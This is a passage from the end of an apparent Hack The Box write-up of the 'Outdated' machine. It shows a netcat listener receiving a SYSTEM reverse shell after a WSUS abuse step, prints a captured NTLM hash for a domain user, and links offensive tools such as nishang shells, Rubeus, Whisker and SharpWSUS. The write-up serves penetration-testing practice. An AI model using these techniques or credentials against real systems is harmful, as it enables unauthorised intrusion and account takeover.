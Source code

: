 ```powershell
------------------------------------
DC.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1

[*] Update is installed

[*] Check complete
```
Once installed we should receive the NT AUTHORITY SYSTEM shell:
```bash
rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.175] 50327
Microsoft Windows [Version 10.0.17763.1432]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

### Credentials
```bash
HASH-NTLM: sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5
```

### Notes
- Bloodhound needs SharpHound .zip file to run, never forget to execute the .exe which is updated most than the .ps1
- Follina is very easy to exploit but relies on the user interaction, as any client-side attack is difficult to get a user to click on a link but if we can accomplish it we can get a really easy shell.

### References
- [Follina](https://github.com/chvancooten/follina.py)
- [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
- [Invoke-ConPTYShell.ps1](https://github.com/antonioCoco/ConPtyShell)
- [Sharphound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe)
- [Invoke-Whiskers.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Whisker.ps1)
- [Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
- [SharpWSUS](https://labs.nettitude.com/blog/introducing-sharpwsus/)

[^dotnet-compilation]: dotNET Project Compilation with Visual Studio
[^full-tty-windows]: Fully Interactive TTY with ConPTY
[^follina]: Follina Exploitation